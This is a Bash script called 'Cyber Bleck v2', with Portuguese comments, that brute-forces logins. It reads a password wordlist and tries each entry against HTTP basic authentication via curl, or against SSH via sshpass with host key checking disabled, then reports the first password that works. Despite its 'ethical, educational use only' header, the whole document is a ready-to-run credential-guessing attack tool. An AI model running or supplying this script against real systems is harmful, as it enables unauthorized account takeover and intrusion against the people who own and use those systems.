 #!/bin/bash
# ===============================================
# Cyber Bleck v2 - Script de Brute Force Ético
# Desenvolvido para uso educacional e ético
# Utilize apenas com permissão em ambientes controlados!
# ===============================================

# ===============================================
# CONFIGURAÇÕES INICIAIS
# ===============================================
TARGET=""            # URL ou endereço IP do alvo
USER=""              # Nome do usuário para autenticação
PASSWORD_FILE=""     # Caminho do arquivo de senhas
MODE=""              # Modo de ataque: http ou ssh

# ===============================================
# FUNÇÕES
# ===============================================

# Exibe o uso correto do script
function exibir_uso() {
  echo "Uso: $0 -t TARGET -u USER -p PASSWORD_FILE -m MODE"
  echo " -t TARGET       URL ou IP do alvo (ex.: http://site.com ou 192.168.1.1)"
  echo " -u USER         Nome do usuário para autenticação"
  echo " -p PASSWORD_FILE Arquivo contendo as senhas, uma por linha"
  echo " -m MODE         Modo de ataque: 'http' para autenticação HTTP ou 'ssh' para SSH"
  exit 1
}

# Verifica se o arquivo de senhas existe
function verificar_arquivo() {
  if [ ! -f "$PASSWORD_FILE" ]; then
    echo "[ERRO] Arquivo de senhas '$PASSWORD_FILE' não encontrado. Saindo..."
    exit 1
  fi
}

# Realiza ataque de brute force em autenticação HTTP básica
function brute_force_http() {
  echo "=== Cyber Bleck - Modo HTTP ==="
  echo "Alvo: $TARGET | Usuário: $USER"
  while read -r PASSWORD; do
    echo "[Tentando] Senha: $PASSWORD"
    STATUS_CODE=$(curl -s -o /dev/null -w "%{http_code}" -u "$USER:$PASSWORD" "$TARGET")
    if [ "$STATUS_CODE" == "200" ]; then
      echo "[SUCESSO] Senha encontrada: $PASSWORD"
      exit 0
    fi
  done < "$PASSWORD_FILE"
  echo "[FALHA] Nenhuma senha válida encontrada."
}

# Realiza ataque de brute force em autenticação SSH
function brute_force_ssh() {
  echo "=== Cyber Bleck - Modo SSH ==="
  echo "Alvo: $TARGET | Usuário: $USER"
  while read -r PASSWORD; do
    echo "[Tentando] Senha: $PASSWORD"
    sshpass -p "$PASSWORD" ssh -o StrictHostKeyChecking=no $USER@$TARGET exit &>/dev/null
    if [ $? -eq 0 ]; then
      echo "[SUCESSO] Senha encontrada: $PASSWORD"
      exit 0
    fi
  done < "$PASSWORD_FILE"
  echo "[FALHA] Nenhuma senha válida encontrada."
}

# ===============================================
# PROCESSAR ARGUMENTOS
# ===============================================
while getopts "t:u:p:m:" opt; do
  case $opt in
    t) TARGET=$OPTARG ;;
    u) USER=$OPTARG ;;
    p) PASSWORD_FILE=$OPTARG ;;
    m) MODE=$OPTARG ;;
    *) exibir_uso ;;
  esac
done

# Validar se todos os argumentos foram fornecidos
if [ -z "$TARGET" ] || [ -z "$USER" ] || [ -z "$PASSWORD_FILE" ] || [ -z "$MODE" ]; then
  exibir_uso
fi

# ===============================================
# EXECUÇÃO
# ===============================================
verificar_arquivo

if [ "$MODE" == "http" ]; then
  brute_force_http
elif [ "$MODE" == "ssh" ]; then
  brute_force_ssh
else
  echo "[ERRO] Modo inválido. Use 'http' ou 'ssh'."
  exibir_uso
fi

